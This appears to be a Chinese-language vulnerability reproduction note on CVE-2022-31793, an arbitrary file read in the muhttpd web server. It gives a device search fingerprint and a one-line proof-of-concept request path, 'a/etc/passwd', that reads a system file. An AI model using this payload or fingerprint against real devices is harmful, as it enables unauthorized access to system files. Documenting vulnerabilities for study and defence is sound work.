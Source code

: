 # muhttpd 任意文件读取漏洞 CVE-2022-31793

## 漏洞描述

muhttpd（mu-HTTP-deamon）是一个简单但完整的web服务器，用可移植的ANSI C编写。它支持静态页面、CGI脚本、基于MIME类型的处理程序和HTTPS。它在接受任何连接之前放弃特权，并且可以记录接收到的请求。它已经在GNU/Linux、NetBSD、FreeBSD、Mac OS X和Cygwin上进行了测试。它在32位和64位、小端和大端系统上成功运行。

muhttpd 1.1.7之前版本存在安全漏洞。攻击者利用该漏洞读取系统任意文件。

## 漏洞影响

<a-checkbox checked>muhttpd 1.1.7</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"2017 ARRIS Enterprises,"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662196402060-ee53d3f5-654b-4fad-8344-3b540d2da4f4.png)

验证POC

```html
a/etc/passwd 
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662196427874-5ec5ef53-a14e-43f2-a9f8-205a1f8119de.png)